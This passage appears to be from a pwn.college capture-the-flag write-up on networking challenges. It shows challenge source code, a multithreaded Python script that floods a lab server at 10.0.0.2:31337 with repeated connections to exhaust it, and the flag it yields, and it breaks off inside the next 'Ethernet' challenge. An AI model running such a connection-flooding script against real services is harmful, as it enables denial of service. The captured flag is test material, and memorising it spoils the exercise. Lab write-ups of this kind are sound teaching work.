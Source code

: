 ```py title="/challenge/run" showLineNumbers
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
server_host = ServerHost("ip-10-0-0-2")
client_host = ClientHost("ip-10-0-0-3")
network = Network(hosts={user_host: "10.0.0.1", server_host: "10.0.0.2", client_host: "10.0.0.3"},
                  subnet="10.0.0.0/24")
network.run()

user_host.interactive(preexec_fn=lambda: limit_capabilities(0), environ=parent_process.environ())
```

This time we have to do multithreading in order to 

```py title="~/script.py" showLineNumbers
import socket
import time
import threading

def spam():
    while True:
        try:
            s = socket.create_connection(("10.0.0.2", 31337), timeout=1)
            time.sleep(1)  
            s.close()
        except Exception:
            pass
        time.sleep(0.01) 

for _ in range(500):  
    threading.Thread(target=spam, daemon=True).start()

# Keep main thread alive
while True:
    time.sleep(1)
```

```
root@ip-10-0-0-1:/# python ~/script.py 
pwn.college{orOZm1YzShPJNpNGcX6vl2sDgCv.QX5UDM2EDL4ITM0EzW}
```

&nbsp;

## Ethernet

> Manually send an Ethernet packet. The packet should have `Ether type=0xFFFF`. The packet should be sent to the remote host at `10.0.0.2`.

### Source code
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import os

import psutil
import scapy.all as scapy
from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class RawPacketHost(Host):
    def entrypoint(self):
        scapy.conf.ifaces.reload()
```